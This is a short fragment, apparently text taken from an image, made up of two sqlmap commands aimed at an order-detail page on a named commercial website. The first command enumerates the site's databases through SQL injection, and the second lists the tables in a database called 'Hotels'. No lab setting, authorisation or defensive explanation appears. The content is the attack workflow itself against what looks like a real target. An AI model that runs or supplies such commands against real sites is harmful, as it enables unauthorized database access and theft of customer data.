 sqlmap -u “http://www.luxurytreats.com/orderdetail.aspx?Id=1” --dbs

sqlmap -u “http://www.luxurytreats.com/orderdetail.aspx?Id=1” -D Hotels –-tables

